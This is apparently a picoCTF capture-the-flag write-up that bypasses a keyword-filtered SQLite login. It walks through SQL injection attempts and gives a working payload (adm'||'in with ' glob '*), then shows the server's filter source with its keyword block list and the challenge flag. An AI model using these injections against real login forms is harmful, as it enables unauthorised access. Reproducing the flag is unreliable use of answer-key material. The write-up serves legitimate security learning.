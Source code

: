 # Overview 
Category: [Web Exploitation]()

AUTHOR: MADSTACKS

# Description
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:46322/
Filter: http://mercury.picoctf.net:46322/filter.php

# Solution
- First, check the filter of the website:
http://mercury.picoctf.net:46322/filter.php
```
Filters: or and true false union like = > < ; -- /* */ admin
```
- I try to enter the username = 'test' and password = '123'. And I know the query
```bash
SELECT username, password FROM users WHERE username='test' AND password='123'
```
- We want to login as admin, but entering admin as plaintext gets blocked. The easy bypass is to use || for concatenation and send ad'||'min as the username:
```bash
SELECT username, password FROM users WHERE username='ad'||'min' AND password='123' 
```
- However, we still need to somehow neutralize the password check. The except keyword should be able to do that, so by sending
```bash
SELECT username, password FROM users WHERE username='ad'||'min'  except select username, password from users where username='' AND password='123' 
```
The `EXCEPT` statement in SQL is used to return the rows from the first query that do not exist in the second query.

- However, this query is blocked due to a new constraint:
`Combined input lengths too long! (> 35)`
- I tried changing :`select username, password from users` to `select * from users` . But the result is still the same
- Finally I tried the query
```bash
SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*' 
```
In SQL statements, using `glob '*'` with a condition may return all results without needing to match the condition exactly.
However, `glob` is not standard SQL syntax; it typically appears in file systems or specific database management systems like SQLite, where it is used for pattern matching.
Generally
```
username: adm'||'in
password: ' glob '*
```
- Once we were able to bypass the authentication query, we got the following response from the server:
http://mercury.picoctf.net:46322/filter.php
```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}
?>
```

> Flag : **picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}**